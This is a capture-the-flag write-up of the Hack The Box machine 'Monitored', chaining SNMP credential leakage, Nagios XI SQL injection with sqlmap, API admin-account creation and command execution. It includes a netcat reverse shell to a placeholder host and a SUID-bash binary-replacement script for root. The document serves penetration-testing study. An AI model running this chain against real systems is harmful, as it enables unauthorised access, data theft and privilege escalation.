









<p align="center">
  
</p>

# monitored - hack the box

**platform:** Hack The Box · retired machine  
**os:** Linux (Debian; kernel 5.10.0-28-amd64 observed, exact release not recorded)  
**outcome:** Nagios XI administrative access -> OS command execution and interactive shell as `nagios`; effective root via sudo-managed service restart and writable Nagios executable  
**focus:** UDP/SNMP · LDAP · authenticated SQL injection · Nagios XI API discovery · API user management · monitoring commands · sudo · systemd · writable executable / privileged service start

---

## `00 / prep & overview`

---

used my usual fish and tmux setup

```fish
CPTS/day05/monitored
❯ touch env.fish && mkdir loot logs notes scans

# env.fish (target IP sanitized)
set -gx ENGAGEMENT "monitored"
set -gx IP "<TARGET_IP>"
set -gx ENGAGEMENT_DIR (pwd -P)

if set -q TMUX
    set -l session (tmux display-message -p '#S')
    tmux set-environment -t "$session" ENGAGEMENT "$ENGAGEMENT"
    tmux set-environment -t "$session" IP "$IP"
    tmux set-environment -t "$session" ENGAGEMENT_DIR "$ENGAGEMENT_DIR"
end
```

---

## `01 / recon`

---

### service discovery

started with a conventional TCP service scan, then the full TCP range and common UDP ports

```fish
nmap -sVC -oA scans/initial $IP
nmap -p- --min-rate 1000 -oA scans/allports $IP
nmap -sVC -p 5667 $IP
nmap -sUV --top-ports 100 -oA scans/udp $IP
```

selected TCP results from the original scan:

```text
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3
80/tcp  open  http     Apache httpd 2.4.56
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 (Debian)

80/tcp redirected to https://nagios.monitored.htb/
443/tcp page title: Nagios XI
```

the full TCP scan revealed a fifth port:

```text
5667/tcp open unknown

# a follow-up version probe:
5667/tcp open tcpwrapped
```

UDP scanning took longer, but it was worth it:

```text
68/udp  open|filtered dhcpc
123/udp open          ntp     NTP v4 (unsynchronized)
161/udp open          snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
162/udp open          snmp    net-snmp; net-snmp SNMPv3 server
```

not treating port 68's `open|filtered` state as proof of an accessible service. I added the hostnames reported by HTTP/TLS to `/etc/hosts` so the Nagios virtual host resolved correctly

### SNMP: credentials in process arguments

ran a community-string walk against SNMP. it returned Linux system information and exposed processes with their full arguments:

```fish
snmpwalk -v2c -c public $IP
```

```text
iso.3.6.1.2.1.1.1.0 = STRING: "Linux monitored 5.10.0-28-amd64 ... x86_64"
...
iso.3.6.1.2.1.25.4.2.1.5.615 = STRING:
"-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc [REDACTED]"
```

the interesting part wasn't just that the host was exposing process metadata. it included a monitoring script invocation with a username and password supplied as command-line arguments

this is why I want to keep UDP enumeration in my routine. something that didn't look promising from the web login became the source of working application credentials

I tried `ssh svc@$IP` first, but the password wasn't accepted by SSH. that didn't prove the credential was wrong; it only told me SSH didn't accept it

### LDAP: a short detour

also investigated LDAP on TCP/389. the Root DSE gave me the naming context:

```fish
ldapsearch -x -H ldap://$IP -s base -b "" namingContexts
```

```text
dn:
namingContexts: dc=monitored,dc=htb
```

then queried the subtree:

```fish
ldapsearch -x -H ldap://$IP -s sub -b "dc=monitored,dc=htb"
```

the anonymous query returned the directory's root object, but no useful user enumeration. moved back to the Nagios XI interface

---

## `02 / Nagios XI authentication and API discovery`

---

### login page and temporary token

the browser redirected from the Nagios welcome page to its XI login. the `svc` account wasn't useful for SSH, but it worked with the XI authentication API



```fish
curl -XPOST -k -L \
  'http://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' \
  -d 'username=svc&password=[REDACTED]&valid_min=5'
```

```json
{
  "username": "svc",
  "user_id": "2",
  "auth_token": "[REDACTED]",
  "valid_min": 5,
  "valid_until": "[REDACTED]"
}
```

this endpoint returned a short-lived **authentication token**, not the API key used in other calls.

I tested the token in the Nagios XI web URL and ended up with an authenticated dashboard as `svc`. the account could view monitoring status but didn't have the administrator features I needed.



### finding the API reference

had a heck of a time piecing together what the old API could do. Nagios makes API documentation selectively available according to your permissions in the app, so I couldn't access it

knew how to compose a `curl` request but couldn't find a complete endpoint listing. Nagios XI has Objects, Config and System API areas, with base path:

```text
/nagiosxi/api/v1/
```

the instance identified itself as **Nagios XI 5.11.0**. its help page for the System API returned:

```text
Not authorized to view this page.
```



so I looked at Nagios support threads and third-party catalogs rather than assuming all the documentation was available anonymously.

one Nagios staff reply gave me a specific lead:

> Help -> System Reference -> POST system/user

- [Nagios support forum: create user via API](https://support.nagios.com/forum/viewtopic.php?t=55542)
- [API Evangelist: Nagios System API](https://apis.apievangelist.com/store/nagios-system-api/)

getting into an application is different from having authorization to read its admin documentation or call its privileged endpoints

---

## `03 / SQL injection and API-key access`

---

### investigating the banner endpoint

I also investigated a reported Nagios XI SQL-injection issue affecting the authenticated banner acknowledgement handler. the notes contain a `sqlmap` run against:

```text
/nagiosxi/admin/banner_message-ajaxhelper.php
```

with `id` as the tested POST parameter, plus an authenticated XI session cookie and token. the authenticated session was needed to reach this handler; the login token from the authentication API was separate from the API key used later. values are intentionally omitted from the public command.

```sh
# Sanitized outline of the request under investigation.
# Session cookie and application token omitted.
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=[REDACTED]' \
  --data='action=acknowledge_banner_message&id=3' \
  --cookie='nagiosxi=[REDACTED]' \
  -p id --batch -D nagiosxi -T xi_users --dump
```

the table export worked. the handler treated the supplied `id` as part of a database query without properly separating the input from SQL. `sqlmap` identified `nagiosxi.xi_users`, enumerated its columns, and returned **two user records**

```text
Database: nagiosxi
Table: xi_users
[2 entries]

username     user_id   api_enabled   enabled
nagiosadmin  1         1             1
svc          2         1             0

Other fields included password, api_key, backend_ticket and email.
[all secret values omitted]
```

the output included API-key material and bcrypt password hashes. `sqlmap` attempted a short dictionary check against the bcrypt hashes, but did not crack them

I did not need a cracked password to continue. after this enumeration I supplied an API key locally and started testing the Nagios REST API

### validating API access

the key worked against the Objects API:

```fish
read -s -P "Nagios API key: " APIKEY

curl -ksS -G \
  --data-urlencode "apikey=$APIKEY" \
  --data-urlencode "pretty=1" \
  'https://nagios.monitored.htb/nagiosxi/api/v1/objects/hoststatus' | jq .
```

selected output showed one monitored host, `localhost` (`127.0.0.1`).

then I tested the System API:

```fish
curl -ksS -G \
  --data-urlencode "apikey=$APIKEY" \
  --data-urlencode "pretty=1" \
  'https://nagios.monitored.htb/nagiosxi/api/v1/system/status' | jq .
```

```json
{
  "instance_id": "1",
  "instance_name": "unassigned",
  "is_currently_running": "1",
  "notifications_enabled": "1",
  "active_service_checks_enabled": "1",
  "event_handlers_enabled": "1"
}
```

reading status information proved the key was accepted, but not that it could perform privileged operations. that was the next thing to test

### API administrator creation

the `POST /system/user` endpoint from the Nagios staff forum accepted an admin-level user creation request:

```fish
curl -k -XPOST \
  "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=$APIKEY&pretty=1" \
  -d "username=null&password=[REDACTED]&name=Null&email=null@localhost&auth_level=admin&monitoring_contact=1"
```

```json
{
  "success": "User account null was added successfully!",
  "user_id": 6
}
```

the new account could log into XI and showed an Admin menu



this was a much stronger authorization finding than a successful GET. the API key allowed me to create an account with administrative access to the application

---

## `04 / Nagios admin to command execution`

---


### shellinabox rabbit hole

after gaining access to the Admin interface, I found:

```text
/nagiosxi/terminal/
```

it presented `monitored login:`. I tried the new application account and `svc`, but neither worked.

### core config manager

the more interesting feature was **Configure -> Core Config Manager -> Commands**.

I looked at a monitoring command definition:

```text
define command {
    command_name    check_custom_app
    command_line    $USER1$/check_by_ssh -H $HOSTADDRESS$ -C "/usr/local/bin/check_app.sh -w $ARG1$ -c $ARG2$"
}
```

this helped me understand Nagios macros and where commands run. `$USER1$` points at the plugin directory; `$HOSTADDRESS$` resolves the monitored target; `$ARG1$` and `$ARG2$` are supplied by the check configuration

created a local check named `check_id` with command line `/usr/bin/id` and used **Run Check Command** from Service Management.

the result was:

```text
[nagios@monitored ~]$ /usr/bin/id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
```

this confirmed that my application admin permissions could cause the Nagios server to execute an OS command as `nagios`



### interactive shell

used the command-testing feature to establish a reverse shell and caught the connection with Penelope





the testing UI showed this command (the original VPN endpoint is replaced here with a placeholder):

```text
nc -c bash <LHOST> 1337
```

on Kali:

```fish
penelope -p 1337
```

the listener reported a new session from Monitored as `nagios(1001)`. running `id` in the resulting shell confirmed the same Linux user and groups.



---

## `05 / local enumeration`

---

### sudo permissions

```sh
id
sudo -l
```

a shortened selection from `sudo -l`:

```text
User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    <--snip-->
```


I initially focused on the allowed `/etc/init.d/nagios` actions. problem: the file didn't exist.

```sh
cat /etc/init.d/nagios
ls /etc/init.d/nagios
```

```text
cat: /etc/init.d/nagios: No such file or directory
ls: cannot access '/etc/init.d/nagios': No such file or directory
```

a sudo rule tells me what I'm allowed to run, not whether its target actually exists. so I moved on to finding the service manager and executable that were actually in use.

### process and executable inspection

```sh
ls -l /usr/local/nagios/bin/nagios
ps -eo user,pid,ppid,comm
systemctl status nagios --no-pager
systemctl cat nagios
```

the Nagios executable was owned by the service account:

```text
-rwxrwxr-- 1 nagios nagios 717648 Nov  9  2023 /usr/local/nagios/bin/nagios
```

the live Nagios processes showed as `nagios`, which initially looked uninteresting. the systemd unit told a different story:

```ini
[Service]
Type=forking
ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/etc/nagios.cfg
ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.cfg
ExecReload=/usr/local/nagios/bin/nagios -v /usr/local/nagios/etc/nagios.cfg
```

`systemctl show` also returned:

```text
User=
Group=
```

no configured `User=` or `Group=` means the systemd service starts its processes under the system manager's default identity, root. Nagios later runs as the `nagios` account, but the root-managed startup still executes the writable binary first

### tracing the privileged restart

I inspected the sudo-authorized wrapper rather than assuming that `sudo` allowed an unrestricted restart:

```sh
cat /usr/local/nagiosxi/scripts/manage_services.sh
ls -l /usr/local/nagiosxi/scripts/manage_services.sh
```

the script was `root:nagios` and not writable by my account:

```text
-r-xr-x--- 1 root nagios 3917 Nov  9  2023 /usr/local/nagiosxi/scripts/manage_services.sh
```

it validates both the action and the service name against explicit lists:

```bash
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
```

---

## `06 / root`

---

the pieces fit together:

| observation | evidence | consequence |
|---|---|---|
| Nagios executable is writable | `nagios:nagios`, owner has `w` | current account controls binary contents |
| Executable's directory is writable | `test -w /usr/local/nagios/bin` returned `0` | directory entries can potentially be replaced |
| systemd launches the executable | `ExecStartPre` / `ExecStart` | privileged process startup depends on that path |
| No `User=` override | `systemctl show` | startup initially uses root identity |
| `manage_services.sh` is sudo-authorized | `sudo -l` and script inspection | service restart can be requested through a restricted wrapper |

the issue isn't that the wrapper lets me pass an arbitrary command. the issue is that the privileged service **trusts an executable controlled by the service account**.

### backup and integrity check

before modifying the executable, I created a backup. both files had matching ownership, permissions and SHA-256 hashes:

```text
-rwxrwxr-- nagios:nagios nagios
-rwxrwxr-- nagios:nagios nagios.bak
bca89ae44023be71db3f44c57032ad3076bcea72b4d8d463bbb54806b659bae4  nagios
bca89ae44023be71db3f44c57032ad3076bcea72b4d8d463bbb54806b659bae4  nagios.bak
```

that verifies an intact copy existed at the time of the check. matching hashes only compare contents, so I also checked file metadata

### replacement

I removed the original path, created a new Bash script at that location, and set it executable. the final transcript shows the script forwarding arguments to the backed-up daemon.

the replacement I actually wrote was:

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
exec /usr/local/nagios/bin/nagios.bak "$@"
```

the idea was for the root-launched service to create a privileged Bash copy. I checked the resulting file and executed it with Bash privileged mode (`-p`)

the final script forwards the original arguments to the backed-up Nagios daemon using `exec` and `"$@"`. this was meant to keep Nagios running while the privileged startup path executed the replacement

```sh
nagios@monitored:/usr/local/nagios/bin$ ls -la /tmp
total 1256
drwxrwxrwt 11 root   root      4096 Nov 18 12:11 .
drwxr-xr-x 19 root   root      4096 Mar 27  2024 ..
-rwsr-sr-x  1 root   root   1234376 Nov 18 12:11 bash
<--snip-->
nagios@monitored:/usr/local/nagios/bin$ /tmp/bash -p
bash-5.1# id
uid=1001(nagios) gid=1001(nagios) euid=0(root) egid=0(root) groups=0(root),1001(nagios),1002(nagcmd)
```

this confirms effective root access, but not a changed real UID. the root-owned Bash copy had the SUID bit set (`s` in its owner permissions), and `bash -p` retained its effective root identity

---

## `07 / findings and lessons`

### systems / methods / findings

| system              | method                                          | finding                                                    |
| ------------------- | ----------------------------------------------- | ---------------------------------------------------------- |
| SNMP                | UDP enumeration                                 | process arguments exposed `svc` credentials                |
| Nagios XI           | temporary authentication token                  | authenticated dashboard as limited `svc` user              |
| Nagios XI / MariaDB | authenticated banner-handler SQL injection      | `xi_users` table and API keys exposed                      |
| Nagios XI API       | API authentication and System API calls         | working `svc`-derived API key                              |
| Nagios XI API       | `POST /system/user`                             | API key created an application admin account               |
| Nagios XI GUI       | Core Config Manager / Run Check Command         | OS commands executed as `nagios`                           |
| Linux               | interactive shell and `sudo -l`                 | access to root-run maintenance wrapper                     |
| systemd             | inspect service unit and executable permissions | root-started service references `nagios`-controlled binary |
| Linux               | backup and binary replacement                   | original preserved; SUID Bash proved effective root (`euid=0`) |

### methodology

- don't stop at the first web login. UDP and SNMP were worth enumerating on a monitoring server
- a confirmed SQL injection may expose database account data even when a password hash isn't cracked
- when API docs are fragmented, search for official examples and probe one operation at a time
- a successful command in a monitoring UI might execute on the server, a worker, or a remote host. verify with `id`
- trace a privileged operation all the way through: sudo rule -> wrapper script -> systemd unit -> executable -> operating-system identity

### references

- [Field notes: Nagios XI SQL injection CVE-2023-40931](https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c)
- [Public PoC explored in the notes](https://github.com/G4sp4rCS/CVE-2023-40931-POC)
- [Nagios support: create user via API](https://support.nagios.com/forum/viewtopic.php?t=55542)
- [API Evangelist: Nagios System API](https://apis.apievangelist.com/store/nagios-system-api/)
- Nagios XI built-in `Help -> API Docs` / System Reference (availability depends on the installed version and permissions)

---

<sub>nu11s3c</sub>
